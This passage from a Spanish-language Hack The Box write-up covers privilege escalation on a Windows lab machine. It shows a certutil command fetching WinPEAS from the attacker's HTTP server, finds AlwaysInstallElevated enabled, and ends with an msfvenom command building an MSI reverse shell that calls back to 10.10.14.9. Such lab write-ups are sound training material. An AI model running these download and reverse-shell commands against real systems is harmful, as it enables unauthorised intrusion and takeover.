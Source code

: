 > -------------------------

## Etapa de Escalada de Privilegios

<p align="justify">
  Después de examinar minuciosamente el sistema de archivos, opté por ejecutar WinPeas. Esta herramienta proporciona una mayor visibilidad sobre posibles rutas o archivos vulnerables, lo que facilita la identificación de oportunidades para escalar privilegios.
</p>

- [WinPEAS](https://github.com/carlospolop/PEASS-ng)

<p align="justify">
  Ahora realizamos la transferencia de archivo desde nuestra máquina nos montaremos un servidor HTTP para que desde la máquina con CERTUTIL.EXE podamos descargar el binario.
</p>

```go
Máquina Atacante:
	python3 -m http.server 80

Máquina Victima:
	certutil.exe -f -urlcache -split http://10.10.14.9/winPeas.exe winPeas.exe
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/e9a53b39-093c-4ae9-b849-e6e77b2e7851">
</p>

<p align="justify">
  Ejecutamos el binario de WinPeas.
</p>

```go
C:> C:\Windows\Temp\PrivEsc\winPeas.exe
```

<p align="justify">
  Descubrimos que el administrador había habilitado la función 'AlwaysInstallElevated' en el registro. Esta configuración nos brinda una oportunidad para obtener un shell del sistema.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/6633b93c-0920-459c-8362-3fb066555dff">
</p>

- [Windows Local Privilege - Always install elevated](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated)

<p align="justify">
  En un primer paso, creamos un archivo MSI con una carga útil de shell inversa mediante Msfvenom. 
</p>

```go
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -f msi -o sh4dowcost.msi
```
